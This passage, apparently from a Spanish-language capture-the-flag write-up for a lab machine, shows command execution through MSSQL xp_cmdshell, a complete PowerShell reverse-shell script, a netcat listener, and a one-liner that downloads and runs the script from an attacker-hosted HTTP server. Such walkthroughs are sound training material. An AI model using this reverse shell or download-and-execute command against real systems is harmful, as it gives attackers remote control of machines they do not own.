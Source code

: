 Comprobaremos que la ejecución de comandos del sistem funciona, para ello:

```powershell
SQL&gt; xp_cmdshell "whoami"
output
--------------------------------------------------------------------------------
archetype\sql_svc
NULL
```

<br>

Lo siguiente que haremos será ejecutar una reverse Powershell desde la sesión interactiva de SQL. Usaremos el siguiente script:

```powershell
File: g2shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.15.26",9999);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	;$data = (New-Object -Type NameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2&gt;&1 |Out-String ); $sendback2 = $sendback + "# ";
	$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()
}; 

$client.Close()
```

A continuación, nos montaremos un servidor HTTP por el puerto 80 para alojar el archivo g2shell.ps1, yo usaré [Python3](https://www.python.org/downloads/) para esto:

```bash
python -m http.server 80
```

A la vez ejecutaremos [Netcat](http://netcat.sourceforge.net/ para escuchar en el puerto 9999, para ello:

```bash
nc -lvnp 9999
```

Por último, desde la sesión SQL ejecutaremos el siguiente comando para hacer una petición al servidor HTTP y así transferir y ejecutar el archivo g2shell.ps1 en la máquina víctima:

```powershell
xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.95/g2shell.ps1\");"
```

Recibiremos la shell y conseguiremos la flag user.txt en el directorio C:\Users\sql_svc\Desktop\

<br>

## Shell de administrador
